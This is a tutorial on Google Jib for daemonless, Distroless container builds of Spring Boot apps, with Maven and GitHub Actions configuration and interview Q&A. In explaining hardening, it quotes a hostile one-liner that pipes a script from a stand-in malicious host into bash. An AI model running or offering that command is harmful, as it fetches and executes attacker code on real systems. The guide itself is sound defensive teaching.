


# Google Jib: Daemonless Containers

For years, the standard path to containerizing a Spring Boot application has been writing a `Dockerfile`:

```dockerfile
# The classic naive Dockerfile
FROM eclipse-temurin:21-jre
WORKDIR /app
COPY target/order-service-0.0.1-SNAPSHOT.jar app.jar
ENTRYPOINT ["java", "-jar", "app.jar"]
```

While functional on a developer's laptop, this workflow introduces severe performance and security liabilities in enterprise CI/CD pipelines:
1. **The Docker-in-Docker (DinD) Security Nightmare:** To build a container image inside a Kubernetes runner (e.g., GitLab CI, GitHub Actions, Tekton, Jenkins), you must either run a Docker daemon inside the pod (privileged mode) or mount the host's `/var/run/docker.sock`. Exposing the host Docker socket gives the container full root control over the physical host machine, violating enterprise zero-trust security.
2. **Broken Layer Caching:** A Spring Boot fat JAR bundles 150 MB of third-party libraries (Spring, Netty, Jackson) together with 200 KB of your application business code. Modifying a single line of Java code changes the checksum of the entire 150 MB JAR. Docker's cache is invalidated, forcing your CI/CD runner to rebuild and upload a massive 150 MB layer on every single Git commit.
3. **Bloated Base Images and CVEs:** Standard Linux base images contain shells, package managers (`apt`, `yum`), and hundreds of unused utilities (`curl`, `wget`, `bash`) that trigger continuous security scanner alerts and expand the attack surface.

The modern cloud-native solution is **Google Jib**.

---

## What is Jib?

**Jib** is an open-source Java containerizer developed by Google. Jib completely bypasses the Docker daemon:



### The Architectural Breakthrough

- **No Docker Daemon Required:** You do not need Docker installed on your laptop or CI runner. Jib writes directly to OCI (Open Container Initiative) and Docker image specifications using pure Java network calls over standard HTTPS.
- **Rootless & Secure:** Because Jib requires no privileged daemons or socket mounting, it runs safely inside unprivileged Kubernetes CI runners.
- **Fast Layer Invalidation:** Jib decomposes your application into distinct, highly optimized OCI layers.

---

## Smart Layering: Why Jib Builds Are Blazing Fast

A container image is an ordered stack of immutable tarball layers. Jib organizes Java applications into distinct semantic layers based on how frequently their contents change:



### The Layer Hierarchy

- **Base Image:** The underlying Java runtime (e.g., Google Distroless). Downloaded once and shared across all microservices on the host node.
- **Dependencies (Slowest Changing):** All stable third-party Maven dependencies (`spring-boot-starter-web`, `hibernate-core`). This 140 MB layer rarely changes and remains permanently cached in your container registry.
- **Snapshot Dependencies:** Internal organization libraries that change occasionally during sprint releases.
- **Resources:** Configuration files (`application.yml`, logging configs).
- **Application Classes (Fastest Changing):** Your compiled `.class` files. When you fix a bug, **only this tiny 200 KB layer is rebuilt and pushed**.

A build and push that previously took 45 seconds in CI completes in **less than 2 seconds**.

---

## Hardening Production: Google Distroless Base Images

Most production containers are based on full Linux distributions like Ubuntu, Debian, or Alpine. These distributions contain:
- Shells (`/bin/bash`, `/bin/sh`)
- Package managers (`apt`, `apk`)
- Network utilities (`curl`, `nc`, `wget`)
- Hundreds of C binaries and shared libraries

If an attacker achieves Remote Code Execution (RCE) via a Java vulnerability (e.g., Log4Shell or Jackson deserialization), their first step is running `curl https://malicious.site/script.sh | bash` to spawn a reverse shell or download malware.

### Enter Google Distroless

By default, Jib packages applications using **Google Distroless**:

```text
gcr.io/distroless/java21-debian12
```

Distroless images contain **strictly the Java Runtime Environment (JRE) and its minimal glibc dependencies**.
- **No Shell:** There is no `/bin/sh` or `/bin/bash`. An attacker cannot execute shell commands.
- **No Package Manager:** There is no `apt-get` or `apk` to install rootkits.
- **Minimal CVE Footprint:** Full Linux distributions constantly trigger alerts for vulnerabilities in Linux utilities that your Java app never uses. Distroless images routinely scan with zero critical vulnerabilities.

---

## Configuring Jib in Maven and Gradle

Let's configure Jib in a production Spring Boot 3 application.

### Step 1: Maven Plugin Configuration (`pom.xml`)

```xml
<plugin>
    <groupId>com.google.cloud.tools</groupId>
    <artifactId>jib-maven-plugin</artifactId>
    <version>3.4.2</version>
    <configuration>
        <!-- Hardened Base Image: Google Distroless Java 21 -->
        <from>
            <image>gcr.io/distroless/java21-debian12:nonroot</image>
        </from>
        <!-- Destination Image Tag in Container Registry -->
        <to>
            <image>ghcr.io/my-org/order-service:${project.version}</image>
            <tags>
                <tag>latest</tag>
            </tags>
        </to>
        <container>
            <!-- Run as non-root user for hardened Kubernetes security -->
            <user>nonroot:nonroot</user>
            <ports>
                <port>8080</port>
            </ports>
            <!-- Cloud-Native JVM Memory Flags -->
            <jvmFlags>
                <jvmFlag>-server</jvmFlag>
                <jvmFlag>-XX:+UseContainerSupport</jvmFlag>
                <jvmFlag>-XX:MaxRAMPercentage=75.0</jvmFlag>
                <jvmFlag>-XX:+ExitOnOutOfMemoryError</jvmFlag>
                <jvmFlag>-Djava.security.egd=file:/dev/./urandom</jvmFlag>
            </jvmFlags>
            <!-- Label Metadata for Observability -->
            <labels>
                <maintainer>infrastructure@company.com</maintainer>
                <service>order-service</service>
            </labels>
            <creationTime>USE_CURRENT_TIMESTAMP</creationTime>
        </container>
    </configuration>
</plugin>
```

### Critical Production Directives:

1. **`nonroot:nonroot` User:** Running containers as `root` is a major Kubernetes security vulnerability. Distroless provides a dedicated `nonroot` UID (`65532`), satisfying standard Kubernetes Pod Security Standards out of the box.
2. **`-XX:+UseContainerSupport` and `-XX:MaxRAMPercentage=75.0`:** Instructs the HotSpot JVM to dynamically calculate its max heap size based on the **cgroup memory limit of the container** rather than the total RAM of the underlying Kubernetes worker node. Setting this to 75% leaves 25% of container memory for Metaspace, thread stacks, and off-heap NIO buffers.
3. **`-XX:+ExitOnOutOfMemoryError`:** If the JVM exhausts heap memory, it immediately terminates the process, signaling Kubernetes to restart the unhealthy pod cleanly rather than lingering in a paralyzed state.

---

## Executing Jib Builds

Jib provides two primary execution targets:

### Build Directly to Remote Registry (Daemonless)

```bash
mvn compile jib:build
```

This command:
- Compiles the application.
- Analyzes dependencies and classes.
- Negotiates directly with the remote container registry over HTTPS.
- Uploads missing layers and commits the container manifest.
- **Docker does not need to be installed.**

### Build to Local Docker Daemon (For Local Development)

```bash
mvn compile jib:dockerBuild
```

If you are developing locally and want to test the container using `docker run`, this command builds the layered image directly into your local Docker daemon's storage.

---

## Jib in Modern CI/CD Pipelines

Here is a complete, rootless, daemonless GitHub Actions workflow:

```yaml
name: Build and Publish Container

on:
  push:
    branches: [ master ]

jobs:
  build-container:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      packages: write # Grants permission to push to GitHub Container Registry (ghcr.io)

    steps:
      - name: Checkout Code
        uses: actions/checkout@v4

      - name: Set up JDK 21
        uses: actions/setup-java@v4
        with:
          java-version: '21'
          distribution: 'temurin'
          cache: 'maven'

      - name: Build and Push OCI Image via Jib (Daemonless!)
        run: |
          mvn compile jib:build \
            -Dimage=ghcr.io/my-org/order-service:latest \
            -Djib.to.auth.username=github-actions-user \
            -Djib.to.auth.password=github-token-secret
```

Notice what is missing:
- No `docker/setup-buildx-action`
- No `docker login`
- No `/var/run/docker.sock` mounting
- No root privileges

The build runs entirely in user-space inside standard Java execution, publishing the image in seconds.

---

## Reproducible Builds by Default

In standard Docker builds, running `docker build` twice on the exact same commit produces two completely different image digests (SHA-256 hashes). Why?
Because Docker records the **current system timestamp** into the file metadata of every layer.

### How Jib Enforces Reproducibility

By default, Jib sets the creation timestamp of all files and the image itself to the **Unix Epoch (1970-01-01 00:00:00 UTC)**.

Because timestamps are normalized and layer ordering is deterministic, building the same Git commit on any machine in the world produces the **exact same byte-for-byte SHA-256 image digest**.

This enables strict security compliance: security auditors can mathematically verify that the binary running in production was produced directly from an untampered source commit.

*(Note: If your registry requires current timestamps, set `<creationTime>USE_CURRENT_TIMESTAMP</creationTime>` as shown in the configuration above).*

---

## Senior Engineer Interview Crucible

### Why is Docker-in-Docker (DinD) considered a severe security risk in enterprise CI/CD runners, and how does Jib eliminate it?

In containerized CI/CD systems (like Kubernetes-based runners), building Docker images using standard Dockerfiles requires one of two architectures:
1. **Privileged DinD:** Running a Docker daemon inside the runner container with `--privileged` flag. This disables container isolation, giving the runner access to the host kernel, physical devices, and memory.
2. **Docker Socket Mounting:** Mounting `/var/run/docker.sock` from the Kubernetes worker node into the runner pod. Any process with access to the Docker socket has effectively root access over the host node. A malicious developer or compromised third-party build dependency can launch sibling containers on the host, escape the pod sandbox, and read cluster secrets.

**How Jib Eliminates the Risk:**
Jib is a pure Java library. It does not require a Docker daemon, socket, or root privileges. It reads compiled `.class` files, formats them into OCI-compliant tarballs in memory, and pushes them directly to the remote container registry over standard HTTPS using registry REST APIs. The CI runner remains completely unprivileged and secure.

---

### How does Jib optimize Docker layer caching for Java applications compared to a standard `COPY target/*.jar app.jar` Dockerfile?

A traditional Dockerfile packages the application as a single Spring Boot fat JAR (`app.jar`). A fat JAR bundles hundreds of megabytes of third-party libraries (Spring, Netty, database drivers) together with a few hundred kilobytes of custom application code. Modifying a single line of business logic changes the SHA-256 checksum of the entire fat JAR, forcing Docker to invalidate the cache and upload the entire 150 MB layer to the registry on every build.

**How Jib Solves It:**
Jib breaks the Java application into multiple independent OCI layers based on modification frequency:
- **Base Image:** Downloaded once.
- **Dependencies Layer (140 MB):** Stable external libraries. Cached permanently.
- **Snapshot Dependencies Layer:** Internal libraries.
- **Resources Layer:** YAML and properties files.
- **Application Classes Layer (200 KB):** Only compiled `.class` files.

When business code changes, only the tiny 200 KB classes layer is invalidated and pushed. The multi-megabyte dependency layers remain cached in the registry, reducing build and upload times from minutes to seconds.

---

### What is a Google Distroless container image, and what are the security and operational trade-offs of deploying Java applications without a shell?

A **Google Distroless** container image contains strictly the application and its runtime dependencies (in this case, the OpenJDK JRE and essential glibc shared libraries). It deliberately excludes all standard Linux utilities: there is no `/bin/bash`, no `/bin/sh`, no package manager (`apt`, `apk`), and no basic shell tools (`curl`, `wget`, `ls`).

**The Security Advantage:**
- **Zero Shell Injection Attacks:** If an attacker achieves Remote Code Execution (RCE) via an application vulnerability, they cannot execute shell scripts, spawn reverse shells, or download rootkits.
- **Minimal CVE Noise:** Scanning distroless images with tools like Trivy or Clair yields near-zero vulnerability alerts, as there are no vulnerable OS utilities present.

**The Operational Trade-Off:**
- **No Direct Shell Debugging:** You cannot run `kubectl exec -it pod -- /bin/sh` to inspect files or test network connectivity inside a running pod.
- *Mitigation:* Debugging in production must rely on structured logging, distributed tracing (OpenTelemetry), and health metrics (Micrometer/Prometheus). For emergency live inspection, Kubernetes supports **Ephemeral Debug Containers** (`kubectl debug`), which attach a temporary shell container to the pod's namespace without compromising the production image.

---

### Explain how Jib achieves byte-for-byte reproducible builds by default, and why timestamps in image metadata matter.

In standard Docker builds, creating an image from identical source code at two different times results in different image hashes because Docker embeds the current system timestamp into the tarball headers of each layer.

Jib achieves **reproducible builds** by enforcing strict determinism:
1. It normalizes all file modification timestamps within the layer tarballs to the Unix Epoch (`1970-01-01 00:00:00 UTC`).
2. It sorts file entries deterministically within each layer.
3. It sets the image creation metadata timestamp to the epoch by default.

Because all non-deterministic factors (timestamps, file ordering, environment noise) are stripped away, building from the same Git commit on any machine anywhere in the world produces the **exact same SHA-256 image digest**. This enables supply-chain security verification, proving that the running production image matches the reviewed source code without tampering.
